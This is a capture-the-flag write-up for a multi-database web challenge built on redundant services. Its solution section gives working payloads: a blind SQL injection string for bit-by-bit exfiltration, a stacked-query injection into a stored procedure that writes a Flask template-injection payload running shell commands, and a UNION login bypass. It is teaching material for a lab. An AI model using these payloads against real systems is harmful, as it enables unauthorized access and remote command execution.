 # Info
This task is based on an old idea that you can make several redundant versions of the same service to make it difficult to exploit.

We even brought a very similar binary challenge to Belluminar Beijing 2016 (see https://github.com/leetchicken/belluminar/tree/master/100percent).
 
The idea was also developed in a chinese mitigation system called "Cyber Mimic Defense". Its authors even organized a special CTF in Nanjing in May 2018, which we won.

We partially bypassed that mitigation system using timing side channel attack.
Funny part is that this challenge also was prone to such attack, which was unintended (0daysober team used it).

The reason is that initially the stacked queries were not allowed (so that you could not make 'waitfor delay' call), but then I added a second stage with the procedure and had to allow stacked queries =)  

# Solution
Find the following vulnerabilities:
- SQL injection in auth controller
- SQL injection leading to aribtrary files creation in sp_logEvent procedure
- Limited template inclusion in Flask


1) Exfiltrate the source code of sp_logEvent procedure. This can be done by randomized algorithm using the following payload (see exp.py):
```python
payload = '''" or 1=1# $$ or 1=1 -- ' or ascii(substring((%s),%s,1))>%s -- a'''
```
The idea is as follows: MySQL and PostgreSQL return positive result in the query with 50% probability, SQLite always returns false, hence we can manipulate the consensus and exfiltrate 1 bit of information with 25% chance.

2) Exploit fragmented injection in procedure to write arbitrary files, injection exists due to variable truncation to 40 bytes. We'll use SSTI payload to execute arbitrary commands through Flask templates:
```
POST /admin/login/ HTTP/1.1
. . .
username='%3bexec+sp_logEvent+"{{''.__class__.mro()[2].__subclasses__()[231]('type+..\..\\flag*+>+templates/sb-admin/pages/res.html',shell=True)}}",+'../server//////////////////////////////''',+',"../templates/sb-admin/pages/x.html"--+'%3b+--+&password=asd
```
We could also simply overwrite app.py, but Flask won't reload automatically if debug=False.

3) Obtain admin session. We need to repeat the following request several times until the consensus will be on our side:
```
POST /admin/login/ HTTP/1.1
. . .
username=root'+union+select+0,'root','7815696ecbf1c96e6894b779456d330e'+--+&password=asd
```
4) Visit /admin/?page=x and get the flag from /admin/?page=res

# Deployment notes
It is better to deploy this task separately for each team to avoid disturbance.

The outbound connections from the VM are disabled in Windows Firewall (to avoid OOB exploitation), thus you need to specify static IP address.

Task can be started by run.bat, which restores original app.py (just in case) and runs it in loop. We've also put it in autorun.

Flag should be put in a file with unpredictable name (currently flag_with_unpredictable_name_i21uiuaoisdjij.txt in Desktop folder).

I haven't recorded all the steps to properly deploy all the DMBS, it was quite painful =)